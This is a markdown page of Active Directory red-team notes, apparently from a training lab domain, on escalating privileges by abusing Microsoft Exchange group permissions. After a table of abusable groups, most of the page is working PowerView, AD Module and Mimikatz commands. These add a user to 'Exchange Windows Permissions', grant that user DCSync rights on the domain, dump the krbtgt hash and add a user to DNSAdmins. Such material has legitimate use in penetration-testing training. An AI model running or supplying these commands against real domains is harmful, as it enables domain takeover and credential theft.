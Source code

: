 # Cross Trust Attacks - MS Exchange

- [Cross Trust Attacks - MS Exchange](#cross-trust-attacks---ms-exchange)
  - [MS Exchange](#ms-exchange)
  - [MS Exchange Interesting Groups](#ms-exchange-interesting-groups)
  - [Abusing MS Organization Manager](#abusing-ms-organization-manager)
  - [Abusing Exchange Trusted Subsystem](#abusing-exchange-trusted-subsystem)

---

![picture 1](images/6eed2a6e13a4dfb976961fb1ef836d3b9d8b8f6d184a7a0bcfc73a8c01367cdf.png)  

<br/>

## MS Exchange

| Group Name | Abusable Permissions | Members |
|--|--|--|
| Exchange Trusted subsystem | Can modify DACL of DNSAdmins* and other groups** which inherit DACL from domain object and are not protected by AdminSDHolder (Can set permissions like ability to add members etc.)<br/><br/>Member of local administrators on exchange servers | Exchange Server computers are member of this group (not the Exchange Servers group) |
| Exchange Windows Permissions | Write DACL on domain object** (Can set permissions on the domain object which can be used for DCSync and more attacks).<br/><br/>Can add members to DNSAdmins | Exchange Trusted Subsystem |
| Organization management | Has Full Control over Exchange Windows Permissions group. <br/><br/>Member of local administrators on exchange servers. | Default Domain Admin user |

Note:
\* Removed in Exchange 2019 CU2 - 'There is a deny ACE on the DNS admins group along with removing the right for Exchange to assign SPNs.'
- https://blogs.technet.microsoft.com/rmilne/2019/06/18/exchange-2019-cu2-released<br/>
\*\* Removed in Exchange 2019 CU1
- https://support.microsoft.com/en-us/help/4490059/using-shared-permissions-model-to-run-exchange-server

<br/>

## MS Exchange Interesting Groups

Enumerate if we have `exchange groups` in `techcorp.local` domain:

- PowerView

```
Get-DomainGroup *exchange* -Domain techcorp.local
```

- AD Module:

```
Get-ADGroup -Filter 'Name -like "*exchange*"' -Server techcorp.local
```

<br/>

Enumerate `Organization Management Group` as well:

- PowerView

```
Get-DomainGroupMember "Organization Management" -Domain techcorp.local
```

- AD Module

```
Get-ADGroupMember -Identity "Organization Management" -Server techcorp.local
```

<br/>

## Abusing MS Organization Manager

If we have privileges of '`exchange manager`', who is a member of the **Organization Management**, we can add a user to the 'Exchange Windows Permissions' group.

- PowerView

```
$user = Get-DomainUser -Identity studentuser64
```

```
$group = Get-DomainGroup -Identity 'Exchange Windows Permissions' -Domain techcorp.local
```

```
Add-DomainGroupMember -Identity $group -Members $user -Verbose
```

- AD Module

```
$user = Get-ADUser -Identity studentuser64
```

```
$group = Get-ADGroup -Identity 'Exchange Windows Permissions' -Server techcorp.local
```

```
Add-ADGroupMember -Identity $group -Members $user -Verbose
```

<br/>

Now, as `studentuser64` (new session and after some time), we can simply add the permissions to run **DCSync**. This holds true for any user who is a part of **Enterprise Windows Permissions group**:

- PowerView_dev

```
Add-DomainObjectAcl -TargetIdentity 'DC=techcorp,DC=local' -PrincipalIdentity 'us\studentuser64' -Rights DCSync -Verbose
```

Then execute DCSync:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local"'
```

<br/>

## Abusing Exchange Trusted Subsystem

Enumerate membership of Exchange Trusted Subsystem in `techcorp.local`:

- PowerView

```
Get-DomainGroupMember "Exchange Trusted Subsystem" -Domain techcorp.local
```

- AD Module

```
Get-ADGroupMember -Identity "Exchange Trusted Subsystem" -Server techcorp.local
```

<br/>

If we have privileges of '`exchange user`', who is a member of the `Exchange Trusted Subsystem`, we can add any user to the `DNSAdmins` group:

- PowerView_dev

```
$user = Get-DomainUser -Identity studentuser64
```

```
$group = Get-DomainGroup -Identity 'DNSAdmins' -Domain techcorp.local
```

```
Add-DomainGroupMember -Identity $group -Members $user -Verbose
```

- AD Module

```
$user = Get-ADUser -Identity studentuser64
```

```
$group = Get-ADGroup -Identity 'DNSAdmins' -Server techcorp.local
```

```
Add-ADGroupMember -Identity $group -Members $user -Verbose
```

<br/>

